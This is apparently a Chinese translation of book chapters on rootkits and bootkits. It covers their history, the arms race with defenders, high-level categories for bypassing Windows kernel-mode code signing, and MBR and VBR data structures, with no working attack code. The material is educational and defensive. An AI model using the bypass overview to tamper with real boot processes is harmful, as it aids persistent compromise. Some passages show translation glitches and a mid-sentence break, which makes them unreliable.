但即使我们假设这些任务是可行的，我们找到的每个内核修改并不一定是恶意的。许多独立的合法程序——如前面讨论的反 rootkit 检查工具，以及更传统的防火墙、防病毒软件和 HIDS——会安装自己的无害钩子来拦截内核控制流。区分防病毒软件的钩子和 rootkit 的钩子可能很困难；事实上，它们的控制流修改方法可能完全相同。这意味着合法的防恶意软件程序可能会被误认为是它们所防范的对象，从而被禁用。对 `digital rights management (DRM)` 软件代理也是如此，它们与 rootkit 如此难以区分，以至于 2005 年 Sony 的 DRM 代理被称作“Sony rootkit”。

另一个检测和消除 rootkit 的挑战是确保恢复算法安全。由于内核数据结构始终在使用，任何非同步写入它们的操作——例如，在数据结构被修改前先读取它，再重新写入——都可能导致内核崩溃。

此外，rootkit 可能会在任何时候尝试恢复其钩子，从而增加不稳定性的潜在风险。

综上所述，自动化恢复内核完整性的做法更适合作为针对已知威胁的被动措施，而不是作为获得可信赖的内核信息的通用解决方案。

而且，仅仅检测并恢复一次内核函数的调度链已经不足。rootkit 可能会持续检查内核代码的修改以及其依赖的数据，并尝试不断将它们恢复。事实上，某些 rootkit 还会监控其文件和注册表键，并在防御软件将它们删除时进行恢复。这迫使防御者不得不玩一场现代版本的经典 1984 年编程游戏 `Core Wars`，在其中程序争夺对计算机内存的控制权。

引用另一句经典电影 `War Games` 中的话：“唯一的获胜方式是不参与。”认识到这一点后，操作系统行业开发了从启动时开始的 OS 完整性解决方案，以在启动阶段预防 rootkit 攻击。结果，防御者不再需要监控大量的指针表以及令人着迷的 OS 代码片段，例如处理函数前置。

正如防御与攻击 coevolution（演变）的本性所表明，他们的努力促使攻击者研究劫持启动过程的方法。他们提出了 `bootkit`，这也是我们后续章节的主要焦点。

如果你的 Windows 黑客之旅始于 Windows XP SP1 之后，你可能会倾向于跳到下一章，而我们则沉浸在无意义的 OS 调试怀旧中。但如果灰色胡子（graybeards）的故事对你有特定的 fascination，请继续阅读。

### The Great Rootkits Arms Race: A Nostalgic Note

2000 年代初是 rootkit 的黄金时代：防御软件明显在军备竞赛中落后，只能应对新 rootkit 发现的技巧，却无法阻止它们。原因在于，当时 rootkit 分析师唯一可用的工具是任何单个 OS 实例上的内核调试器。

尽管功能有限，该内核调试器——即 NuMega SoftIce 调试器——拥有冻结并可靠检查操作系统状态的能力，这一点即使是当前工具也难以做到，而它本身也是一项挑战。在 Windows XP Service Pack 2 之前，SoftIce 是内核调试器的金标准。一个热键组合让分析师能够完全冻结内核，下沉到本地调试控制台（如 Figure 3-3 所示），并在这完全冻结的 OS 内存中搜索 rootkit 的存在——这是一个 rootkit 无法篡改的视图。

认识到 SoftIce 构成的威胁后，rootkit 作者迅速开发了检测其在系统上存在的方法，但这些技巧并未阻碍分析师太长时间。通过 SoftIce 控制台，防御者拥有分析师无法被攻击者篡改的信任根基，从而扭转了攻击者的局面。许多从 SoftIce 调试器功能出发的分析师 lament（ lament ）失去了冻结整个 OS 状态并进入显示全内存状态的调试控制台的能力——那才是真正的“地面实况”。

一旦检测到 rootkit，分析师可以结合静态分析和动态分析，定位到 rootkit 代码的相关位置，消除其对 SoftIce 的检测，然后逐步执行其代码以了解其工作原理。



*Figure 3-3: The SoftIce local debugger console*

遗憾的是，SoftIce 已经不存在；微软部分收购了其生产商以加强其自身的内核调试器 WinDbg。如今，WinDbg 仍是分析运行中 Windows 内核异常的最强大工具，甚至可以远程进行分析，但当调试器本身受到恶意干扰时，其能力会受到限制。SoftIce 的跨平台监视控制台功能已消失。

SoftIce 的消失未必完全有利于攻击者。虽然 rootkit 理论上可以干扰不仅防御软件，还包括远程调试器，但这种干扰往往显而易见，足以触发检测。对于注重隐蔽、针对性的攻击 rootkit，显眼的干扰会导致任务失败。一些高端恶意软件的确包含检测远程调试器的功能，但这些检测过于显眼，容易被分析师绕过。

攻击者的优势真正开始回升，是当微软开始通过特定的防御措施增加 rootkit 开发的复杂度——我们将在本书后续章节中讨论这些措施。如今，HIDS 采用 `Endpoint Detection and Response (EDR)` 方法，该方法专注于收集尽可能多的系统信息，上传至中央服务器，并应用异常检测算法（包括那些旨在捕获不太可能由系统已知用户发起的操作，从而表明被入侵的行为）。收集和使用这类信息以检测潜在 rootkit 的明显需求，说明在单个 OS 内核镜像中区分善意与恶意有多么困难。

### Conclusion

军备竞赛仍在继续，双方持续 coevolve（共演）并发展，但已进入新的领域——启动过程。以下章节描述了旨在保护 OS 内核完整性、限制攻击者对其众多目标访问的新技术，以及攻击者的应对措施，这些措施破坏了新加固启动过程的早期阶段，并暴露了其设计内部的惯例和弱点。

# PART II BOOTKITS

## 4 EVOLUTION OF THE BOOTKIT


本章介绍 `bootkit`，一种在系统启动过程的早期阶段感染系统的恶意程序，在操作系统完全加载之前。Bootkits 在 PC 启动流程变更后使用次数减少，但近年来出现了惊人的复兴。现代 bootkits 使用与早期 bootkits 相似的隐蔽和持久性技术，以尽可能长时间地在目标系统上保持活动，而无需用户知晓。

在本章中，我们回顾最早的 bootkits；追踪 bootkits 普及程度的波动，包括其在近年 spectacular（ spectacular ）的复兴；并讨论现代启动感染恶意软件。

- 引导程序感染的历史 可追溯至 IBM PC 问世之前。通常将“首个引导程序感染程序”授予给 Creeper，一款于 1971 年左右发现的自我复制程序。Creeper 在 VAX PDP-10s 上运行于 TENEX 网络操作系统之上。第一个已知的防病毒程序是名为 Reaper 的程序，它的作用是删除 Creeper 感染。在本节中，我们将从 Creeper 起回顾早期的引导程序感染案例。

#### 引导扇区感染者

*引导扇区感染者（BSI）* 之所以是最早的引导程序感染程序，是因为它们最早在 MS-DOS 时代被发现——这是一套非图形界面的操作系统，位于 Windows 之前，而 PC BIOS 的默认行为是尝试从软盘驱动器中引导。顾名思义，这些恶意程序感染了软盘的引导扇区；引导扇区位于磁盘的第一个物理扇区。

在开机时，BIOS 会在驱动器 A 中寻找可引导的磁盘，并运行其引导扇区中的代码。如果在驱动器中留下受感染的磁盘，即使该磁盘不可引导，也会导致系统被 BSI 感染。

虽然有些 BSI 同时感染磁盘和操作系统文件，但大多数 BSI 都是 *纯粹* 的，即它们是专门针对硬件的，不包含操作系统组件。纯粹 BSI 仅依赖 BIOS 提供的中断指令与硬件通信并感染磁盘驱动器。这意味着受感染的软盘会尝试感染 IBM 兼容 PC，无论其运行的操作系统是什么。

#### Elk Cloner and Load Runner

BSI 病毒软件最初针对 Apple II 微型计算机，其操作系统通常完全包含在磁盘中。为 Apple II 开发的首个病毒归功于 Rich Skrenta，其 Elk Cloner 病毒（1982–1983）^(1) 采用了 BSI 所使用的感染方法，尽管它在 PC 引导扇区病毒出现前多年。

Elk Cloner 会将自身注入已加载的 Apple 操作系统，从而修改它。病毒随后驻留在内存中，并通过拦截磁盘访问并覆盖其他软盘的引导扇区来感染其他软盘。每 50 次启动时，它会显示以下信息（有时被描述为一首诗）：

Elk Cloner:

The program with a personality

It will get on all your disks

It will infiltrate your chips

Yes it's Cloner!

It will stick to you like glue

It will modify ram too

Send in the Cloner!

随后，1989 年首次发现了 Load Runner，它是影响 Apple II 的下一个已知恶意软件。Load Runner 会捕获由键盘组合 CONTROL-COMMAND-RESET 触发的 Apple 重置命令，并将其视为将自身写入当前磁盘的信号，从而实现持久化。这也是最早的恶意软件持久化手段之一，也预示着更高级的隐蔽驻留手段的出现。

#### The Brain Virus

1986 年出现了首个 PC 病毒——Brain。原始版本仅针对 360KB 磁盘。Brain 是一种相当庞大的 BSI，它在磁盘的第一个引导扇区上写入自己的加载程序。病毒将其主体和原始引导扇区存储在磁盘上可用的扇区中，并标记这些扇区（即包含原始引导代码和主体的扇区）为“bad”，以防止操作系统覆盖这些空间。

Brain 的一些方法在现代引导程序感染程序中也被采用。例如，它将代码存储在隐藏区域，现代引导程序感染程序通常也如此做。其次，它将受感染扇区标记为“bad”以防止操作系统的清理程序覆盖代码。再次，它采用隐蔽技术：如果病毒在访问受感染扇区时处于活动状态，它会拦截磁盘中断处理程序，确保系统显示合法的引导扇区代码。接下来的章节将详细探讨这些引导程序感染程序的特性。

### 引导程序感染技术的演变

本节将回顾 BSIs 使用的衰落过程，随着操作系统的演进，它们面临新的挑战。随后，我们将探讨微软的内核模式代码签名政策如何使旧方法失效，促使攻击者开发新的感染手段，以及 *Secure Boot* 标准的兴起为现代引导程序感染程序带来了新的障碍。

#### BSI 时代的终结

随着操作系统变得更加复杂，纯粹的 BSI 开始面临挑战。新版操作系统用操作系统专用驱动程序取代了 BIOS 提供的中断指令，用于与磁盘通信。因此，一旦操作系统启动，BSI 便无法再利用 BIOS 中断来感染其他磁盘。在如此系统上尝试执行 BIOS 中断可能导致不可预测的行为。

随着更多系统采用能够从硬盘而非软盘引导的 BIOS，受感染的软盘效果大打折扣，BSI 感染率随之下降。微软 Windows 的普及以及软盘使用的快速衰落，为旧式 BSIs 敲响了丧钟。

#### 内核模式代码签名政策

随着微软在 Windows Vista 及其后续 64 位 Windows 版本中引入内核模式代码签名政策，攻击者被迫重新审视引导程序感染技术。该政策要求所有内核模式驱动程序必须拥有有效的数字签名，未经签名的恶意内核驱动程序将无法加载。因此，攻击者在操作系统完全启动后无法在内核中注入代码，必须寻找绕过现代系统完整性检查的方法。

已知的绕过微软数字签名检查的手段可分为四类，如图 4-1 所示。



*图 4-1：绕过内核模式代码签名政策的技术*

第一类完全在用户态内运行，利用微软 Windows 自身提供的合法方式暂时禁用签名政策，以便调试和测试驱动程序。系统提供接口，可通过自定义证书验证驱动程序的数字签名，或启用测试签名以临时禁用驱动程序映射验证。

第二类利用系统内核或已签名的合法第三方驱动程序中的漏洞，使恶意软件得以进入内核态。

第三类针对操作系统引导加载器，通过修改内核来禁用内核模式代码签名政策。新型引导程序感染程序采用此方法，它们在操作系统任何组件加载之前即先执行，从而能够篡改内核以关闭安全检查。我们将在下一章详细讨论此方法。

第四类则针对系统固件，其目标与第三类相同——在操作系统内核加载前执行，以禁用安全检查。主要区别在于攻击对象是固件而非引导加载器组件。

在实践中，第三种方法—— compromising the boot process（ compromising the boot process）——是最常见的，因为它能实现更持久的攻击。因此，攻击者回到了传统的 BSI 技巧，开发出现代引导程序感染程序。绕过现代计算机系统完整性检查的需求极大地影响了引导程序感染程序的发展。

#### Secure Boot 的兴起


# The rise of Secure Boot


今天，计算机越来越频繁地配备功能安全启动（`Secure Boot`）保护。`Secure Boot` 是一种安全标准，旨在确保启动过程涉及的组件完整性。我们将在 **第 17 章** 中更详细地探讨它。

面对 `Secure Boot`，恶意软件生态必须再次演变；与以往针对启动过程的攻击不同，现代恶意软件更多地尝试攻击系统固件。

正如微软的内核模式代码签名策略消除了内核根套件（`kernel-mode rootkits`）并开启了引导套件（`bootkits`）的新时代，`Secure Boot` 目前正为现代引导套件创造障碍。我们看到现代恶意软件更频繁地攻击 BIOS。我们将在 **第 15 章** 中讨论这种威胁。

### Modern Bootkits

在计算机安全领域，与其他领域一样，引导套件（`bootkits`）的 **证明概念（PoCs）** 和真实恶意软件样本会随之演进。此时的 PoC 是安全研究人员为了证明威胁的真实性而开发的恶意软件（与由网络犯罪分子开发、目的恶意的恶意软件不同）。

第一个现代引导套件通常被认为是 eEye 的 PoC `BootRoot`，于 2005 年在拉斯维加斯的 Black Hat 会议上发表。由 Derek Soeder 和 Ryan Permeh 编写的 `BootRoot` 代码是一个 **Network Driver Interface Specification (NDIS)** 后门。它首次展示了原始引导套件概念可以作为攻击现代操作系统的模型。

然而，尽管 eEye 的演示是引导套件恶意软件开发的重要一步，但直到两年后，在野外才首次检测到具有引导套件功能的新恶意软件样本。这一殊荣归于 2007 年的 `Mebroot`。当时 `Mebroot` 是最精密的威胁之一，它使用了全新的隐蔽技术，使其在重启后仍能存活，给杀毒公司带来了严峻挑战。

`Mebroot` 的检测与同年发布的两个重要 PoC 引导套件 `Vbootkit` 和 `Stoned` 同步。`Vbootkit` 的代码表明，可以通过修改引导扇区来攻击 Microsoft Windows Vista 内核。（`Vbootkit` 的作者将其代码作为开源项目公开。）`Stoned` 引导套件同样攻击 Vista 内核，其名称来源于数十年前非常成功的 `Stoned BSI`。

这两个 PoC 的发布对于安全行业来说至关重要，它展示了需要警惕哪类引导套件。如果研究人员犹豫不决不发表结果，恶意软件作者就有机会在系统能够检测新引导套件恶意软件之前就预先部署。相反，正如常见情况一样，恶意软件作者会复用研究人员在 PoC 中展示的方法，随后在 PoC 发布后不久就出现新的野外恶意软件。图 4-2 和 表 4-1 展示了这种共演关系。



*图 4-2：引导套件复苏时间线*

**表 4-1：** 证明概念引导套件演进 vs. 实际引导套件威胁演进

| **证明概念引导套件演进** | **实际引导套件威胁演进** |
| --- | --- |
| **eEye BootRoot (2005)**<br>The first ^(1) MBR-based bootkit for Microsoft Windows operating systems | | **Mebroot (2007)**<br>The first well-known modern MBR-based bootkit (we’ll cover MBR-based bootkits in detail in **Chapter 7**) for Microsoft Windows operating systems in the wild |
| **Vbootkit (2007)**<br>The first bootkit to abuse Microsoft Windows Vista | | **Mebratix (2008)**<br>The other malware family based on MBR infection |
| **Vbootkit 2 x64 (2009)**<br>The first bootkit to bypass the digital signature checks on Microsoft Windows 7 | | **Mebroot v2 (2009)**<br>The evolved version of Mebroot malware |
| **Stoned (2009)**<br>Another example of MBR-based bootkit infection | | **Olmarik (TDL4) (2010/11)**<br>The first 64-bit bootkit in the wild |
| **Stoned x64 (2011)**<br>MBR-based bootkit supporting the infection of 64-bit operating systems | | **Olmasco (TDL4 modification) (2011)**<br>The first VBR-based bootkit infection |
| **Evil Core** ^(3) **(2011)**<br>A concept bootkit that used SMP (symmetric multiprocessing) for booting into protected mode | | **Rovnix (2011)**<br>An evolved VBR-based infection with polymorphic code |
| **DeepBoot** ^(4) **(2011)**<br>A bootkit that used interesting tricks to switch from real mode to protected mode | | **Mebromi (2011)**<br>The first exploration of the concept of BIOS kits seen in the wild |
| **VGA** ^(5) **(2012)**<br>A VGA-based bootkit concept | | **Gapz** ^(6) **(2012)**<br>The next evolution of VBR infection |
| **DreamBoot** ^(7) **(2013)**<br>The first public concept of a UEFI bootkit | | **OldBoot** ^(8) **(2014)**<br>The first bootkit for the Android OS in the wild |

1. 当我们说引导套件是“第一”的时，指的是我们所知的第一个。

2. Nitin Kumar and Vitin Kumar, “VBootkit 2.0—Attacking Windows 7 via Boot Sectors,” HiTB 2009, [`conference.hitb.org/hitbsecconf2009dubai/materials/D2T2%20-%20Vipin%20and%20Nitin%20Kumar%20-%20vbootkit%202.0.pdf`](http://conference.hitb.org/hitbsecconf2009dubai/materials/D2T2%20-%20Vipin%20and%20Nitin%20Kumar%20-%20vbootkit%202.0.pdf)。

3. Wolfgang Ettlinger and Stefan Viehböck, “Evil Core Bootkit,” NinjaCon 2011, `http://downloads.ninjacon.net/downloads/proceedings/2011/Ettlinger_Viehboeck-Evil_Core_Bootkit.pdf`。

4. Nicolás A. Economou and Andrés Lopez Luksenberg, “DeepBoot,” Ekoparty 2011, [`www.ekoparty.org//archive/2011/ekoparty2011_Economou-Luksenberg_Deep_Boot.pdf`](http://www.ekoparty.org//archive/2011/ekoparty2011_Economou-Luksenberg_Deep_Boot.pdf)。

5. Diego Juarez and Nicolás A. Economou,“VGA Persistent Rootkit,” Ekoparty 2012, `https://www.secureauth.com/labs/publications/vga-persistent-rootkit/`。

6. Eugene Rodionov and Aleksandr Matrosov, “Mind the Gapz: The Most Complex Bootkit Ever Analyzed?” spring 2013, [`www.welivesecurity.com/wp-content/uploads/2013/05/gapz-bootkit-whitepaper.pdf`](http://www.welivesecurity.com/wp-content/uploads/2013/05/gapz-bootkit-whitepaper.pdf)。

7. Sébastien Kaczmarek, “UEFI and Dreamboot,” HiTB 2013, [`conference.hitb.org/hitbsecconf2013ams/materials/D2T1%20-%20Sebastien%20Kaczmarek%20-%20Dreamboot%20UEFI%20Bootkit.pdf`](https://conference.hitb.org/hitbsecconf2013ams/materials/D2T1%20-%20Sebastien%20Kaczmarek%20-%20Dreamboot%20UEFI%20Bootkit.pdf)。

8. Zihang Xiao, Qing Dong, Hao Zhang, and Xuxian Jiang, “Oldboot: The First Bootkit on Android,” [`blogs.360.cn/360mobile/2014/01/17/oldboot-the-first-bootkit-on-android/`](http://blogs.360.cn/360mobile/2014/01/17/oldboot-the-first-bootkit-on-android/)。

我们将在后续章节详细介绍这些引导套件所使用的技术。

### Conclusion

本章讨论了引导 compromises 的历史与演进，让你对引导套件技术有一个总体认识。在 **第 5 章** 中，我们将深入探讨内核模式代码签名策略，并探索通过引导套件感染来绕过该技术的方法，重点关注 `TDSS` 根套件。`TDSS`（也称为 `TDL3`）的演进以及 `TDL4` 引导套件完美体现了从内核根套件向引导套件的转变，以便在被入侵系统上更长时间隐藏。

## 第 5 章：操作系统启动过程要点


本章介绍与引导套件（`bootkit`）相关的 Microsoft Windows 启动过程最重要的方面。因为引导套件的目标是在目标系统的极低层级隐藏，它需要篡改操作系统启动组件。所以，在深入探讨引导套件如何构建和行为之前，你需要了解启动过程是如何工作的。

**NOTE**

*本章信息适用于 Microsoft Windows Vista 及更高版本；早期 Windows 版本的启动过程有所不同，详见“*`bootmgr` *模块和启动配置数据*”部分。*

启动过程是操作系统运行中最重要却最不被理解的阶段之一。虽然总体概念广为人知，但鲜有程序员——包括系统程序员——等待下一条消息……

`MBR` 是一个包含硬盘分区信息和引导代码的数据结构。其主要任务是确定可启动硬盘的活动分区，该分区包含要加载的操作系统实例。一旦识别出活动分区，`MBR` 读取并执行其引导代码。清单 5-1 展示了 `MBR` 的结构。

```c
typedef struct _MASTER_BOOT_RECORD{  
    BYTE bootCode[0x1BE];   // space to hold actual boot code  
    MBR_PARTITION_TABLE_ENTRY partitionTable[4];  
    USHORT mbrSignature;    // set to 0xAA55 to indicate PC MBR format  
} MASTER_BOOT_RECORD, *PMASTER_BOOT_RECORD;
```

*清单 5-1: MBR 的结构*

正如你所见，`MBR` 引导代码 ➊ 仅限于 446 字节（十六进制 `0x1BE`，这是引导代码逆向工程师熟悉的值），因此它只能实现基本功能。接下来，`MBR` 解析分区表（如 ➋ 所示），以定位活动分区；读取其第一扇区中的卷引导记录（`VBR`）；并将控制权转移给它。

##### 分区表

`MBR` 中的分区表是一个包含四个元素的数组，每个元素由清单 5-2 所示的 `MBR_PARTITION_TABLE_ENTRY` 结构描述。

```c
typedef struct _MBR_PARTITION_TABLE_ENTRY {  
    BYTE status;            // active?  0=no, 128=yes  
    BYTE chsFirst[3];       // starting sector number  
    BYTE type;              // OS type indicator code  
    BYTE chsLast[3];        // ending sector number  
    DWORD lbaStart;         // first sector relative to start of disk  
    DWORD size;             // number of sectors in partition  
} MBR_PARTITION_TABLE_ENTRY, *PMBR_PARTITION_TABLE_ENTRY;
```

*清单 5-2: 分区表项的结构*

`MBR_PARTITION_TABLE_ENTRY` 的第一个字节 ➊，即 `status` 字段，表示该分区是否为活动分区。在任意时刻，只能有一个分区被标记为活动，该状态用值 128（十六进制 `0x80`）表示。

`type` 字段 ➋ 列出分区类型。最常见的类型有：

*   `EXTENDED MBR partition type`
*   `FAT12 filesystem`
*   `FAT16 filesystem`
*   `FAT32 filesystem`
*   `IFS`（安装过程中使用的可安装文件系统）
*   `LDM`（Microsoft Windows NT 的逻辑磁盘管理器）
*   `NTFS`（主要的 Windows 文件系统）

类型为 0 表示 *未使用*。字段 `lbaStart` 和 `size` ➌ 以扇区为单位定义分区在磁盘上的位置。`lbaStart` 字段包含从硬盘开头到分区的偏移量，`size` 字段包含分区的大小。

##### Microsoft Windows 驱动器布局

图 5-3 展示了包含两个分区的 Microsoft Windows 系统典型可启动硬盘布局。

`Bootmgr` 分区包含 `bootmgr` 模块和其他一些操作系统启动组件，而操作系统分区包含一个承载操作系统和用户数据的卷。`bootmgr` 模块的主要目的是确定要加载哪个特定的操作系统实例。如果计算机上安装了多个操作系统，`bootmgr` 会显示一个对话框提示用户选择一个。`bootmgr` 模块还提供参数，确定如何加载操作系统（是否应以安全模式、使用最后一次正确配置、禁用驱动程序签名强制等方式加载）。



*图 5-3: 典型的可启动硬盘布局*

#### 卷引导记录和初始程序加载器

硬盘可能包含多个承载不同操作系统实例的分区，但通常只有一个分区被标记为活动。`MBR` 不包含解析活动分区上特定文件系统的代码，因此它读取并执行该分区的第一扇区，即 `VBR`，如图 5-2 的第三层所示。

`VBR` 包含分区布局信息，指定使用的文件系统类型及其参数，以及从活动分区读取初始程序加载器（`IPL`）模块的代码。`IPL` 模块实现文件系统解析功能，以便能够从分区的文件系统读取文件。

清单 5-3 展示了 `VBR` 的布局，它由 `BIOS_PARAMETER_BLOCK_NTFS` 和 `BOOTSTRAP_CODE` 结构组成。`BIOS_PARAMETER_BLOCK`（`BPB`）结构的布局特定于卷的文件系统。`BIOS_PARAMETER_BLOCK_NTFS` 和 `VOLUME_BOOT_RECORD` 结构对应 NTFS 卷。

```c
typedef struct _BIOS_PARAMETER_BLOCK_NTFS {  
    WORD SectorSize;  
    BYTE SectorsPerCluster;  
    WORD ReservedSectors;  
    BYTE Reserved[5];  
    BYTE MediaId;  
    BYTE Reserved2[2];  
    WORD SectorsPerTrack;  
    WORD NumberOfHeads;  
    DWORD HiddenSectors;  
    BYTE Reserved3[8];  
    QWORD NumberOfSectors;  
    QWORD MFTStartingCluster;  
    QWORD MFTMirrorStartingCluster;  
    BYTE ClusterPerFileRecord;  
    BYTE Reserved4[3];  
    BYTE ClusterPerIndexBuffer;  
    BYTE Reserved5[3];  
    QWORD NTFSSerial;  
    BYTE Reserved6[4];  
} BIOS_PARAMETER_BLOCK_NTFS, *PBIOS_PARAMETER_BLOCK_NTFS;  

typedef struct _BOOTSTRAP_CODE{  
    BYTE bootCode[420];           // boot sector machine code  
    WORD bootSectorSignature;     // 0x55AA  
} BOOTSTRAP_CODE, *PBOOTSTRAP_CODE;  

typedef struct _VOLUME_BOOT_RECORD{  
    WORD jmp;  
    BYTE nop;  
    DWORD OEM_Name;  
    DWORD OEM_ID; // NTFS  
    BIOS_PARAMETER_BLOCK_NTFS BPB;  
    BOOTSTRAP_CODE BootStrap;  
} VOLUME_BOOT_RECORD, *PVOLUME_BOOT_RECORD;
```

*清单 5-3: VBR 布局*

注意 `VBR` 以一条 `jmp` 指令 ➋ 开始，它将系统控制权转移给 `VBR` 代码。`VBR` 代码反过来从分区读取并执行 `IPL`，其位置由 `HiddenSectors` 字段 ➊ 指定。`IPL` 报告其相对于硬盘开头的偏移量（以扇区为单位）。`VBR` 的布局总结在图 5-4 中。



*图 5-4: VBR 的结构*

正如你所见，`VBR` 本质上由以下组件组成：

*   负责加载 `IPL` 的 `VBR` 代码
*   BIOS 参数块（存储卷参数的数据结构）
*   发生错误时显示给用户的文本字符串
*   `0xAA55`，`VBR` 的 2 字节签名

`IPL` 通常占据 15 个连续的 512 字节扇区，紧随 `VBR` 之后。它实现了足够的代码来解析分区的文件系统并继续加载 `bootmgr` 模块。`IPL` 和 `VBR` 一起使用，因为 `VBR` 只能占用一个扇区，无法在如此有限的空间内实现足以解析卷文件系统的功能。

#### `bootmgr` 模块和启动配置数据

`IPL` 从文件系统读取并加载操作系统启动管理器的 `bootmgr` 模块，如图 5-2 的第四层所示。一旦 `IPL` 运行，`bootmgr` 就接管启动过程。

`bootmgr` 模块从启动配置数据（`BCD`）读取数据，`BCD` 包含几个重要的系统参数，包括影响安全策略的参数，如第 6 章介绍的内核模式代码签名策略。引导套件通常试图绕过 `bootmgr` 对代码完整性验证的实现。

##### `bootmgr` 模块的起源

`bootmgr` 模块在 Windows Vista 中引入，用于替代早期基于 NT 的 Windows 版本中的 `ntldr` 引导加载器。微软的想法是在启动链中创建一个额外的抽象层，以将预启动环境与操作系统内核层隔离。将启动模块与操作系统内核隔离给 Windows 带来了启动管理和安全性的改进，使得强制执行施加于内核模式模块的安全策略（如内核模式代码签名策略）变得更容易。传统的 `ntldr` 被拆分为两个模块：`bootmgr` 和 `winload.exe`（如果操作系统从休眠加载，则为 `winresume.exe`）。每个模块实现不同的功能。

`bootmgr` 模块管理启动过程，直到用户选择启动选项（如图 5-5 所示为 Windows 10）。程序 `winload.exe`（或 `winresume.exe`）在用户做出选择后加载内核、启动驱动程序和一些系统注册表数据。

